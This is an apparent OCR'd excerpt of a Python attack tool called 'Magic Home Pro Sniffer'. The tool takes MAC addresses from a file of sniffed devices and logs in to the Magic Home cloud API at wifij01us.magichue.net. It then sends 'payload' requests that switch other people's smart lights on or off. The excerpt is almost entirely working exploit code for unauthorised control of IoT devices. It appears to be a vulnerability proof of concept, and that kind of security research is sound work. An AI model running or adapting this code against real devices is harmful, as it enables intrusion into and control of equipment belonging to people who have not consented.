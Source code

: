 ```
        "Accept-Language": "en-US",
        "Accept": "application/json", 
        "Content-Type": "application/json; charset=utf-8",
        "token":token,
        "Host": "wifij01us.magichue.net",
        "Connection": "close",
        "Accept-Encoding": "gzip, deflate"
    }

    print (Fore.WHITE + "[+] Sending Payload ...")
    response = requests.post(urlOff, data=data, headers=headersOff)
    if response.status_code == 200:
        if "true" in response.text:
            print (Fore.GREEN + "[*] Endpoint " + Fore.WHITE + f"{target}" + Fore.GREEN + " Switched Off" + Style.RESET_ALL)
        else:
            print (Fore.RED + "[-] Failed to switch on Endpoint " + Style.RESET_ALL + f"{target}")

def lighItUp(target, token):
    outtahere = ""
    q = "q"
    if len(str(target)) < 12:
        print (Fore.RED + "[!] Invalid target" + Style.RESET_ALL)
    elif re.match('[0-9a-f]{2}[0-9a-f]{2}[0-9a-f]{2}[0-9a-f]{2}[0-9a-f]{2}[0-9a-f]{2}$', target.lower()):
        print (outtahere.lower())
        while outtahere.lower() != q.lower():
            if outtahere == "0":
                turnOn(target, token)
            elif outtahere == "1":
                turnOff(target, token)
            outtahere = input(Fore.GREEN + "ON/OFF/QUIT ? (0/1/Q): " + Style.RESET_ALL)
        menu()

def attack():
    with open('sniffedDevices.txt', 'rb') as f:
        os.system('clear')
        print (Fore.GREEN + "+=====================================+"+ Style.RESET_ALL)
        print (Fore.GREEN + "| Author: Victor Hanna (@9lyph)       |"+ Style.RESET_ALL)
        print (Fore.GREEN + "| Description: Magic Home Pro Sniffer |"+ Style.RESET_ALL)
        print (Fore.GREEN + "| Attack Device    : '1'              |"+ Style.RESET_ALL)
        print (Fore.GREEN + "| Exit to Main Menu: '2'              |"+ Style.RESET_ALL)
        print (Fore.GREEN + "| (CTRL^C to Quit)                    |"+ Style.RESET_ALL)
        print (Fore.GREEN + "+=====================================+"+ Style.RESET_ALL)
        print (Fore.WHITE + "[+] These are you available local targets:"+ Style.RESET_ALL)
        alreadyDone = []
        for target in f.readlines():
            macAddresses = ((target).replace(b":", b""))
            if macAddresses in alreadyDone:
                continue
            else:
                alreadyDone.append(macAddresses)
                print (target.replace(b":", b"").decode('utf-8').strip())

        choice = int(input ("Choice: "))
        if (choice == 1):
            macAddress = input("[+] Enter Device MAC (xxxxxxxxxxxx): ")
            urlAuth = "https://wifij01us.magichue.net/app/login/ZG001"

            data = {
                "userID":"<!--Valid Username-->",
                "password":"<!--Valid Password-->",
                "clientID":""
```